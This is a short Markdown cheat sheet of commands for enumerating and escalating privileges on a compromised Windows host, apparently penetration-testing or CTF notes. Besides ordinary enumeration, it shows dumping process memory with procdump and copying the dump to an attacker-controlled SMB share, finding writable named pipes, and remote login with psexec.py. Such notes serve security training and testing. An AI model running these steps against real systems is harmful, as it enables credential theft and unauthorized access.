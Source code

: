 # Windows Escaltion

## Gather Network Information

	ipconfig /all
	arp -a
	route print

## Enumerate Protections

	Get-MpComputerStatus
	Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
	Get-AppLockerPolicy -Local | Test-AppLockerPolicy -path C:\Windows\System32\cmd.exe -User Everyone 		Tests Applocker policy

## Basic System Information

	echo %USERNAME%		Print current user
	whoami /priv		Displays current user privileges
	whoami /groups		Displays current user groups
	net user		Print all users
	net localgroup		Print all groups
	net localgroup <groupname>		Prints information of group
	tasklist /svc		Gives a better idea of what applications are running on the system. Prints the name of executables and services running
		https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/tasklist

	set		Prints env variables including PATH
	systeminfo		Prints information of the system, including hotfixes applied
		https://www.catalog.update.microsoft.com/Search.aspx?q=hotfix
		If systeminfo doesn't display hotfixes, they may be queriable with WMI using the WMI-Command binary with QFE (Quick Fix Engineering) to display patches.

		wmic qfe 
		https://learn.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page
		https://learn.microsoft.com/en-us/windows/win32/cimwin32prov/win32-quickfixengineering

		We can do this with PowerShell as well using the Get-Hotfix cmdlet.

		Get-HotFix | ft -AutoSize

	wmic product get name		Get installed programs
		or using powershell
		Get-WmiObject -Class Win32_Product |  select Name, Version

	netstat -ano		Display active tcp and udp connections
	query user		Display active users
	net accounts		Prints password policy

	get-process		Enumerates running processes

		Use procdump https://learn.microsoft.com/en-us/sysinternals/downloads/procdump , to dump the memory of any interesting running process

			.\procdump.exe -ma <process_id> <output_file>
		
		We can use an smb share to download the output_file:

			on our local machine we do

			smbserver.py -smb2support -username guest -password guest share <path_to_folder_we_gonna_share>

			smbserver is a script from impacket

			on the remote machine we do

			net use x: \\<our_local_ip>\share /user:guest guest

			and now we copy the dump file

			cmd /c "copy <filen_name>.dmp X:\"

## Check communication through processess using pipes

	pipelist.exe /accepteula		enumerate instances of named pipes
		https://docs.microsoft.com/en-us/sysinternals/downloads/pipelist
	Get-ChildItem \\.\pipe\		enumerate instances of named pipes with powershell
	accesschk.exe /accepteula \\.\Pipe\<name_of_pipe> -v		Enumerate permissions of pipe. We are looking for a pipe we have WRITE permissions for our user
		https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk
	accesschk.exe -w \pipe\* -v		Enumerates all pipes that have WRITE permission


## Remote Login with usermae and password

We can try doing remote logins with useranmes and passwords using a script from impacket

	psexec.py '<username>:<password>@<remote_host_ip>'


## Try WinPeas

	https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS

## More info

	https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md